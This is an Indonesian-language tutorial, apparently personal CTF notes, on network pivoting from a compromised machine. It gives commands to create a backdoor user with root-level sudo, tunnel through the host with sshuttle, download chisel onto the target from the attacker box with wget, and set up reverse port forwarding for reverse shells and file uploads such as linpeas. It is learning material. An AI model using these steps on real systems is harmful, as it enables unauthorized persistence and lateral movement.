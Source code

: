 # Pivoting
---
sebuah teknik yang membuat kita mendapatkan akses ke network lain dari mesin yang sudah kita dapatkan/eksploitasi. Tujuannya agar kita bisa mengakses mesin pada network lain dalam satu jaringan dari mesin yang sama. [Baca Disini](https://medium.com/mii-cybersec/basic-network-pivoting-5aca38b4bfa1)

--- 
NOTES :
>Disini saya menggunakan metodologi yang saya buat dari hasil mengikuti event CTF mulai dari masuk ke networknya dan mendapatkan shellnya. Diingatkan kembali disini saya mempelajari tetapi tidak mendalami jadi mungkin ada miss pengertian pada beberapa penjelasan. Dan tentu saya bakal update jika saya benar-benar memahami pivoting dengan cara lain (Gambar akan menyusul jika ingat :D)

#### Requirements
---
1. Mesin yang terhubung dengan mesin lainnya (bisa cek menggunakan `ip a s`)
2. [Chisel](https://github.com/jpillora/chisel/releases/tag/v1.7.7) sesuaikan dengan mesin (normalnya `amd64`)
3. sshuttle [`sudo apt install sshuttle`]

#### Steps to reproduce

> Note :
> Kasus disini tidak mengetahui password salah satu user/root nya

- Membuat Backdoor(?)
1. Pastikan mesin sudah mendapatkan **root** akses (melalui eksploitas) jika kalian tidak mengetahui password dari salah satu user/root nya

2. Buat sebuah user dan isi passwordnya (ketika passwd nanti disuruh isi passwordnya)
```bash
$ useradd johndoe
$ passwd johndoe
```

jika ingin user tersebut dibuat setara dengan root bisa ditambahkan di `/etc/sudoers` nya. [Bisa baca disini](https://linuxize.com/post/how-to-add-user-to-sudoers-in-ubuntu/)

- Tunneling via **sshuttle**
3. Setelah kita membuat user pada mesin kita ke Attacker Box/mesin kita untuk menjalankan perintah sshuttle
```bash
$ sudo sshuttle -r johndoe@<ip machine> <ip subnet>/24
```
untuk ip subnet ini berasal dari ip mesin yang akan kita pivoting, bisa dilihat di `ip a s`

> karena kita menggunakan sshuttle, jadi kita bisa mengakses langsung IP machine yang telah kita pivoting. Misal IP Machine yang kita pivoting terdapat services HTTP pada port 8080 maka kita bisa langsung akses misal 192.168.1.106:8080 pada browser
> 
> catatan :
> jika kalian melakukan **nmap** hasilnya pasti setiap port kebuka jadi jika mesin yang kalian dapet terdapat **nmap** (bisa check dengan `which nmap`) maka lakukan enumeration didalam mesinnya saja

- Port forwading via **chisel**
Lalu bagaimana kita ingin melakukan reverse shell atau yang lainnya? tentu saja dengan Port Forwarding yang dimana ini akan membuat port khusus yang saling menghubungkan antara **Target Machine <-> Attacker Box** 

Target Machine Side
4. Pada Mesin Target yang telah kita eksploitasi. Kita simpan chisel pada mesinnya dengan menggunakan wget pada mesinnya (jangan lupa nyalain `python3 -m http server 80` pada folder yang ada chiselnya)
```bash
$ wget http://<ip attackerbox>/chisel

# buat chisel jadi execute
$ chmod +x ./chisel
```

5. Setelah itu kita buat mesinnya menjadi sebuah sever menggunakan chisel
```bash
$ ./chisel server --reverse -p 5555
```

Attacker Box Side
6. Jalankan chisel pada attacker box 
```bash
$ ./chisel client <ip target machine>:5555 R:8000:127.0.0.1:8000
```
Bisa dilihat **R** pada perintah di atas merupakan port forwardingnya yang akan di forward di port 8000 pada localhost/mesin kita

> bisa check menggunakan `netstat -tpln` atau `ss -lt` apakah port yang kita forward di **Target Machine** sudah ada atau belum

Terus bagaimana jika kita ingin upload linpeas,dll pada mesin yang telah kita pivoting?
Dalam kasus saya, saya membuat chisel server dan client lagi pada tab terminal baru. Jadi saya membuat **1** untuk hasil **reverse shellnya** dan **1** lagi untuk **upload filenya**.